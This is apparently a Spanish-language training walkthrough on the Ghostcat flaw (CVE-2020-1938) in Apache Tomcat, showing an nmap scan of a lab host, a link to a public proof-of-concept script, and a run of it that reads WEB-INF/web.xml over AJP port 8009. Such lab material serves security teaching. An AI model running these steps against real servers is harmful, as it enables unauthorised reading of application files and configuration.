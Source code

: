 
# **CVE-2020-1938: Ghostcat**

Se descubrió que Tomcat era vulnerable a un LFI no autenticado en un descubrimiento semi-reciente llamado[Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938). Todas las versiones de Tomcat antes de las 9.0.31, 8.5.51 y 7.0.100 se encontraron vulnerables. Esta vulnerabilidad fue causada por una configuración errónea en el protocolo AJP utilizado por Tomcat. AJP significa Protocolo Apache JServ, que es un protocolo binario utilizado para las solicitudes de proxy. Esto se usa típicamente en solicitudes de representación a servidores de aplicaciones detrás de los servidores web front-end.

El servicio AJP generalmente se ejecuta en el puerto 8009 en un servidor Tomcat. Esto se puede verificar con un escaneo NMAP dirigido.

Atacando a Tomcat

```
xnoxos@htb[/htb]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.localStarting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds

```

El escaneo anterior confirma que los puertos 8080 y 8009 están abiertos. Se puede encontrar el código POC para la vulnerabilidad[aquí](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Descargue el script y guárdelo localmente. El exploit solo puede leer archivos y carpetas dentro de la carpeta de aplicaciones web, lo que significa que archivos como`/etc/passwd`No se puede acceder. Intentemos acceder a Web.xml.

Atacando a Tomcat

```
xnoxos@htb[/htb]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">
```